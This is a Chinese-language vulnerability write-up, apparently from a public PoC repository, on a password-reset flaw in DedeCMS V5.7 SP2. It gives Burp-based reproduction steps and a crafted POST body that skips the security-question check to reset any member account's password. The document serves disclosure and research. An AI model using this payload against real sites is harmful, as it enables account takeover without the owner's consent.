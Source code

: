 # DedeCMS V5.7 前台任意用户密码修改漏洞

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

织梦内容管理系统 (`Dedecms`)是一款 `PHP` 开源网站管理系统。在用户密码重置功能处，`php`  存在弱类型比较，如果用户没有设置密保问题，那么可以绕过验证密保问题，直接修改密码(管理员账户默认不设置密保问题)。值得注意的是修改的密码是 `member` 表中的密码，即使修改了管理员密码也是 `member` 表中的管理员密码，仍是无法进入管理。

## 漏洞影响

`DedeCMS V5.7 SP2`

开启会员功能

## 漏洞复现

需要管理员开启会员功能，开启流程为

```plain
系统 -> 系统基本参数 -> 会员设置
```

然后进入找回密码，选择 “通过安全问题找回”，填写正确的用户名与邮箱

没有密码问题的用户，会得到这样的提示

![img](https://img-blog.csdnimg.cn/img_convert/64261d51d635fdc7b88c8f809d2d0e62.png)

不要紧，重来并用burp 抓包，更改 post 数据

原本的 post 数据

```plain
dopost=getpwd&gourl=&userid=ada&mail=123456%40admin.com&vdcode=vogr&type=1
```

更改后的 post 数据

```plain
dopost=safequestion&id=2&safequestion=00&safeanswer=0
```

id 为 想要更改的用户账号 id，发包即可

![img](https://img-blog.csdnimg.cn/img_convert/da714103f3932d9b046d9d93f455c41a.png)



访问得到的链接，就可以修改密码，这里要注意，一定要使用 `burp`获取链接，不要直接改包后 `forward`

## 总结

这个漏洞只需要存在没有设置密保问题的用户就行，直接 `post id` 就可以，用户名会直接在修改密码中取出来，还是比较好的，唯一的缺点就是只能更改 `member` 中的 `admin` 账户密码，没法利用这个登陆到后台

## 参考链接

- `https://wiki.bylibrary.cn/漏洞库/01-CMS漏洞/DedeCMS/Dedecms 前台任意用户密码修改/`

`github` 链接：`https://github.com/d5shenwu/vulPOC`



